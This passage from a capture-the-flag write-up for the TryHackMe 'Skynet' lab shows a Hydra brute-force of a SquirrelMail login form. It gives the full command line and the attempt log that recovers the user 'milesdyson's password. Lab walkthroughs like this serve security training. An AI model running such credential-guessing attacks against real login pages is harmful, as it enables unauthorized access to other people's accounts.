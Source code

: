 ### Now we have a potential password list `logs1.txt`, and potential username `milesdyson`, lets try access something; `squirrelmail` popped up in a our directory enumeration.

Used hydra to bruteforce the HTTP form. Note, the form submits to `redirect.php`, not to `login.php`.

```
kali@kali:~/Desktop/TryHackMe/skynet$ hydra -l milesdyson -P logs/log1.txt 10.10.121.225 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -I -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-10 17:31:26
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.121.225:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "cyborg007haloterminator" - 1 of 31 [child 0] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator22596" - 2 of 31 [child 1] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator219" - 3 of 31 [child 2] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator20" - 4 of 31 [child 3] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator1989" - 5 of 31 [child 4] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator1988" - 6 of 31 [child 5] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator168" - 7 of 31 [child 6] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator16" - 8 of 31 [child 7] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator143" - 9 of 31 [child 8] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator13" - 10 of 31 [child 9] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator123!@#" - 11 of 31 [child 10] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator1056" - 12 of 31 [child 11] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator101" - 13 of 31 [child 12] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator10" - 14 of 31 [child 13] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator02" - 15 of 31 [child 14] (0/0)
[ATTEMPT] target 10.10.121.225 - login "milesdyson" - pass "terminator00" - 16 of 31 [child 15] (0/0)
[80][http-post-form] host: 10.10.121.225   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-10 17:31:46

```

